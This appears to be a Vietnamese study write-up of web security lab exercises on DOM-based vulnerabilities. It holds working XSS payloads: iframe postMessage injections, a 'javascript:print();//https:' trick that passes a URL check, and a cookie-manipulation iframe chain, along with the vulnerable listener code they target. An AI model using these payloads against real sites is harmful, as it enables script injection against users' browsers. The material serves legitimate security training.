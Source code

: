 
1.DOM-based open redirection
```
&url=https://EXPLOIT_SERVER_ID/  
```


2.DOM-based cookie manipulation
Dựng payload trigger XSS
```
productId=17#'onclick='alert(1); # cần click để trigger
'><script>print()</script> # không cần click ( bản chất vẫn là xss injection vào chuỗi)

```

Kết hợp với exploit server:
```js
<iframe
  src="https://0ab600d904fd6d1380f503e300e10078.web-security-academy.net/product?productId=1#'><script>print()</script>"
  onload="if(!window.x)this.src='https://0ab600d904fd6d1380f503e300e10078.web-security-academy.net/';window.x=1;"
></iframe>
```
> Note: Cách tấn cần này chỉ hoạt động với chrome

3.DOM XSS using web messages
Đoạn mã có lỗ hổng
```js
<script>
	window.addEventListener('message', function(e) {
		document.getElementById('ads').innerHTML = e.data;
	})
</script>
```
Hướng tấn công là từ trang exploit của kẻ tân công tạo 1 iframe và thực hiện gửi messages chứa nội dung nguy hiểm
```js
<iframe
  src="vulnsite"
  onload="this.contentWindow.postMessage('<img src=x onerror=print()>','*')"
></iframe>
```

4.DOM XSS using web messages and a JavaScript URL
Đoạn mã có lỗ hỏng
```js
<script>
	window.addEventListener('message', function(e) {
		var url = e.data;
		if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
			location.href = url;
		}
	}, false);
</script>
```
Payload
```js
<iframe
  src="vulnsite"
  onload="this.contentWindow.postMessage('javascript:print();//https:','*')"
></iframe>
```

5.DOM XSS using web messages and `JSON.parse`
Kịch bản không khác case 3 và 4. 
```js
<iframe src='vulnsite' onload="this.contentWindow.postMessage(
  JSON.stringify({
    type: 'load-channel',
    url: 'javascript:print()'
  }),
  '*'
);">
</iframe>
```